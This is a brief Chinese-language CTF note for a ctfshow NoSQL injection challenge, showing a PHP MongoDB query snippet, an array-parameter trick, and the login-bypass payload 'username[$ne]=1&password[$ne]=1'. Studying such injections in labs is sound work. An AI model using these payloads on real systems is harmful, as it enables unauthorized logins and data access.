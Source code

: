 使用工具nosqlattack。不能用sqlmap。

```
/api/?id[]=flag
```
语句
```
  $query = new MongoDB\Driver\Query($data);
  $cursor = $manager->executeQuery('ctfshow.ctfshow_user', $query)->toArray();

直接登录
username[$ne]=1&password[$ne]=1
```